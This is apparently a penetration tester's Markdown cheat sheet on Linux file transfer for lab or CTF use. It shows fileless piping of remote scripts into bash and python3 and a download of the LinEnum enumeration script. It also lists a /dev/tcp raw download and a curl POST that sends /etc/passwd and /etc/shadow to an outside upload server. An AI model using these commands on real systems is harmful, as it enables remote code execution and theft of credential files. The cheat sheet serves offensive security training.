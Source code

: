 #linux/file-transfer
[[File transfer common]]
# Download files
```shell
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh

curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
#### Fileless
```shell
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash

wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```
#### #bash
```shell
exec 3<>/dev/tcp/10.10.10.32/80

echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

cat <&3
```
#### SSH
```shell
sudo systemctl start ssh

scp plaintext@192.168.49.128:/root/myroot.txt . 
```

# Upload files
Start server:
```shell
sudo python3 -m pip install --user uploadserver

openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```
Upload:
```shell
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

Python/PHP/Ruby servers:
#python #php #ruby #nodejs 
```shell
python3 -m http.server

python2.7 -m SimpleHTTPServer

php -S 0.0.0.0:8000

ruby -run -ehttpd . -p8000

npx http-server -p 8000
```